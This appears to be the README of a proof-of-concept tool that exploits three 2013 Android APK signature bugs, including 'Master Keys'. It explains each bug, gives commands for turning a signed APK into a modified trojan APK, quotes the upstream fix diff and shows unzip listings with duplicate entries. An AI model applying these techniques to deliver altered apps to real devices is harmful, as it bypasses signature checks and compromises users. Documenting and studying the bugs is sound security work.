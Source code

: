 Zip File Arbitrage
===================

This project includes a proof of concept for Android bug 8219321, 9695860, and 9950697
## Android bug 9950697

This bug is the newest and also the most exploitable.  ZipArbitrage uses this bug by default.  General idea here is: it was assumed that the length of the filename (and the filename) is the same in both the local file header as well as the central directory.  Description of its workings [here](http://www.saurik.com/id/19).  

This bug is a bit more limited 
   - Files must already exist in original APK
   - Filename + original filelength < 64K
   - New fileLength < original filelength 

Run it as:
```
java -jar bin/AndroidZipArbitrage.jar Orig.apk modifiedAPK.apk
```
Fix commited here:
```
commit 2da1bf57a6631f1cbd47cdd7692ba8743c993ad9
Author: Elliott Hughes <enh@google.com>
Date:   Sun Jul 21 14:34:12 2013 -0700

    Fix ZipFile local file entry parsing.

    The file name length is given in both the central directory entry
    and the local file entry, with no consistency check. ZipInputStream
    and the VM's native code both use the local file entry's value but
    ZipFile was using the value from the central directory.

    This patch makes ZipFile behave like the other two. (Even though,
    unlike the others, ZipFile actually has enough information to detect the
    inconsistency and reject the file.)

    Bug: https://code.google.com/p/android/issues/detail?id=57851
    Bug: 9950697
    Change-Id: I1d58ac523ad2024baff1644d7bf822dae412495d
    (cherry picked from commit 257d72c1b3a69e0af0abe44801b53966dbf7d214)

diff --git a/luni/src/main/java/java/util/zip/ZipFile.java b/luni/src/main/java/java/util/zip/ZipFile.java
index 2f9e3b0..832235e 100644
--- a/luni/src/main/java/java/util/zip/ZipFile.java
+++ b/luni/src/main/java/java/util/zip/ZipFile.java
@@ -284,17 +284,20 @@ public class ZipFile implements Closeable, ZipConstants {
                 throw new ZipException("Invalid General Purpose Bit Flag: " + gpbf);
             }

-            // At position 28 we find the length of the extra data. In some cases
-            // this length differs from the one coming in the central header.
-            is.skipBytes(20);
-            int localExtraLenOrWhatever = Short.reverseBytes(is.readShort()) & 0xffff;
+            // Offset 26 has the file name length, and offset 28 has the extra field length.
+            // These lengths can differ from the ones in the central header.
+            is.skipBytes(18);
+            int fileNameLength = Short.reverseBytes(is.readShort()) & 0xffff;
+            int extraFieldLength = Short.reverseBytes(is.readShort()) & 0xffff;
             is.close();

-            // Skip the name and this "extra" data or whatever it is:
-            rafStream.skip(entry.nameLength + localExtraLenOrWhatever);
+            // Skip the variable-size file name and extra field data.
+            rafStream.skip(fileNameLength + extraFieldLength);
+
+            // The compressed or stored file data follows immediately after.
             rafStream.length = rafStream.offset + entry.compressedSize;
             if (entry.compressionMethod == ZipEntry.DEFLATED) {
-                int bufSize = Math.max(1024, (int)Math.min(entry.getSize(), 65535L));
+                int bufSize = Math.max(1024, (int) Math.min(entry.getSize(), 65535L));
                 return new ZipInflaterInputStream(rafStream, new Inflater(true), bufSize, entry);
             } else {
                 return rafStream;
```

## Android bug 9695860

Jay Saurik found a very nice way to utilize bug 9695860. He describes it far better than I could [here](http://www.saurik.com/id/18). I did not implement the advanced interleaving that he mentions here, but I did implement the ability to have more or less entries in the trojan app.  There are basically no limitations with this exploit.  In addition, this bug is patched on way less devices than AndroidMasterKeys.

The ```--9695860``` switch makes this tool use bug 9695860.

Run it as:
```
java -jar bin/AndroidZipArbitrage.jar --9695860 Orig.apk modifiedAPK.apk
```


## Android bug 8219321 aka Android Master Keys


This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidZipArbitrage.jar --8219321 Orig.apk modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
